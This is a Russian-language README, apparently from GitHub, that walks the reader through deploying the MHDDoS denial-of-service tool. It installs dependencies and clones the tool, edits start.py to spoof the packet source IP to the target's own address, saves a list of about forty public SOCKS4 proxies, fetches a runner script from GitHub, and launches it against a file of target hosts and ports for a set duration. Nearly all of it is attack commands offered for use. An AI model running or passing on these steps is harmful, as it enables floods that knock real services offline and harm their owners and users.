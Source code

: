 1. Установите инструментарий
```
sudo apt-get update
sudo apt-get install -y python3-pip python-pyasn1
pip install pyasn1==0.4.6
```

2. Установите на сервере MHDDoS
```
git clone https://github.com/MHProDev/MHDDoS.git
cd MHDDoS
pip install -r requirements.txt
```

3. Откройте `start.py` найдите следующую строу
```
ip.set_ip_src(getMyIPAddress())
```
и замените ее значение на 
```
ip.set_ip_src(self._target[0])
```
соблютдая индентацию (к-во пробелов в начале строки)


4. Сохраните прокси лист

```
echo 'socks4://115.239.21.111:23456
socks4://119.3.231.232:8001
socks4://123.56.29.180:10808
socks4://178.237.38.22:13292
socks4://192.252.215.5:16137
socks4://93.190.141.62:9050
socks4://192.252.215.5:16137
socks4://72.195.34.35:27360
socks4://162.14.135.190:10800
socks4://80.75.3.74:1080
socks4://114.88.230.134:1080
socks4://98.162.96.53:10663
socks4://119.3.231.232:8001
socks4://72.195.34.60:27391
socks4://119.3.231.232:8001
socks4://198.8.94.170:4145
socks4://142.93.143.155:9010
socks4://192.252.211.197:14921
socks4://192.111.135.17:18302
socks4://72.195.34.35:27360
socks4://175.24.235.242:7891
socks4://98.162.25.23:4145
socks4://98.162.25.4:31654
socks4://174.77.111.198:49547
socks4://192.111.137.35:4145
socks4://192.111.137.35:4145
socks4://98.162.25.7:31653
socks4://78.47.230.141:17027
socks4://128.199.245.23:24527
socks4://222.212.85.16:7000
socks4://51.222.13.193:10084
socks4://121.205.228.46:8003
socks4://1.14.104.55:15229
socks4://192.111.135.21:4145
socks4://192.111.135.21:4145
socks4://72.195.34.60:27391
socks4://101.35.115.136:20012
socks4://142.93.143.155:9010
socks4://98.162.25.4:31654
socks4://175.24.235.242:7891
socks4://192.111.137.34:18765' > files/proxies/0
 ```

5. установите раннер
```
curl https://raw.githubusercontent.com/rxitech/k6clean/master/runner.sh > runner.sh
```

6. сделайте раннер запускаемым

```
chmod +x ./runner.sh
```

7. Создайте targets.csv файл с целями в следующем формате (без запятой после последнего значения!)
```
localhost;127.0.0.1;
google.com;172.217.19.78;443;80;8080;
```

8. Запустите раннер передав файл с целями и продолжительность выполнения в секундах и размером "пачки" целей для параллельной обработки (зависит от сервера но больше 5 ставить не рекоммендуется)
```
./runner.sh targets.csv 300 5
```
